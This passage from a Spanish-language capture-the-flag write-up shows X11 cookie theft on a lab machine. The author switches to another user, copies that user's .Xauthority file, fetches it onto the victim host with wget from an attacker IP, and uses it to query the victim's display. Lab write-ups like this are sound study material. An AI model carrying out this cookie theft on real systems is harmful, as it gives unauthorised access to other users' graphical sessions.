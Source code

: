 Voy asignarle una shell temporalmente..
`$ sudo usermod --shell /bin/bash '_laurel'`

```shell
$ sudo su '_laurel'
┌─[_laurel@parrot]─[/mnt/montura/home/ross]
└──╼ $
```
Ahora ya puedo migrar a este usuario.

Me voy a copiar este archivo.
```shell
$cp .Xauthority /tmp/.Xauthority
```

```shell
$ sudo chown pointedsec:pointedsec .Xauthority
```

Ahora siguiendo [este](https://book.hacktricks.xyz/network-services-pentesting/6000-pentesting-x11) apartado de HackTricks.

Me comparto este archivo a la máquina víctima.
```shell
alex@squashed:/home/alex$ wget http://10.10.14.18:8081/.Xauthority
```

Recapitulemos, este archivo contiene una Cookie de 128 bits que el cliente manda al servidor, esta cookie sirve para la autorización de X11, que en palabras simples y "mal", sería como una especie de RDP.

![Write-up Image](images/Screenshot_7.png)

Exportamos la cookie.
```shell
alex@squashed:/home/alex$ export XAUTHORITY=/home/alex/.Xauthority
export XAUTHORITY=/home/alex/.Xauthority
```

Nos responde con información de la pantalla, por lo cual esto es bueno.
```shell
alex@squashed:/home/alex$ xdpyinfo -display :0 | less
xdpyinfo -display :0 | less
WARNING: terminal is not fully functional
-  (press RETURN)
name of display:    :0
version number:    11.0
vendor string:    The X.Org Foundation
vendor release number:    12013000
X.Org version: 1.20.13
maximum request size:  16777212 bytes
motion buffer size:  256
bitmap unit, bit order, padding:    32, LSBFirst, 32
image byte order:    LSBFirst
number of supported pixmap formats:    7
supported pixmap formats:
    depth 1, bits_per_pixel 1, scanline_pad 32
    depth 4, bits_per_pixel 8, scanline_pad 32
    depth 8, bits_per_pixel 8, scanline_pad 32
    depth 15, bits_per_pixel 16, scanline_pad 32
    depth 16, bits_per_pixel 16, scanline_pad 32
    depth 24, bits_per_pixel 32, scanline_pad 32
    depth 32, bits_per_pixel 32, scanline_pad 32
keycode range:    minimum 8, maximum 255
```
